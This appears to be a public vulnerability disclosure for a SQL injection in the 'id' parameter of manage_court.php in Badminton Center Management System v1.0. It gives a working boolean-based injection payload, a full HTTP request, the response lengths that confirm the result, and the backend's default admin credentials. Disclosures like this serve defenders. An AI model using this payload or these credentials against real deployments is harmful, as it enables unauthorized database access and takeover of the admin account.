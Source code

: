 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Current database name: bcms_db,length is 7

Vulnerability File: /bcms/admin/courts/manage_court.php?id=

Vulnerability location: /bcms/admin/courts/manage_court.php?id=,id

[+] Payload: /bcms/admin/courts/manage_court.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /bcms/admin/courts/manage_court.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 2168
![image](https://user-images.githubusercontent.com/54017627/170620731-3ac9421a-f017-4319-b4fa-04c3668fb8f7.png)

![image](https://user-images.githubusercontent.com/54017627/170620643-60374624-ecfa-42b3-9829-47a597c76da8.png)

When length (database ()) = 7, Content-Length: 2190
![image](https://user-images.githubusercontent.com/54017627/170620709-c37316d4-6cd1-4090-94e5-29b5c34e0f17.png)

![image](https://user-images.githubusercontent.com/54017627/170620684-8337aabc-710a-4432-8d10-968380bbb314.png)
